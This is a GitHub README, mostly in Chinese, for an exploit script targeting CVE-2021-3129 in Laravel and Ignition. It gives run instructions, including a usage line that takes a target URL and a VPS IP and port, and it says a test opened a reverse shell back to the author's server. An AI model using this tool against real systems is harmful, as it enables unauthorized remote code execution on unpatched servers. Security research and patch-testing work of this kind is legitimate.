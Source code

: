 # CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

**仅供测试与研究使用**

**仅供测试与研究使用**

**仅供测试与研究使用**

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port`

# 本地测试结果

如下图,在本地wsl中测试,在自己的vps上收到了shell

![](Snipaste_2021-04-10_09-40-45.jpg)

![](Snipaste_2021-04-10_09-43-48.jpg)

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 优化了一小部分编码方式
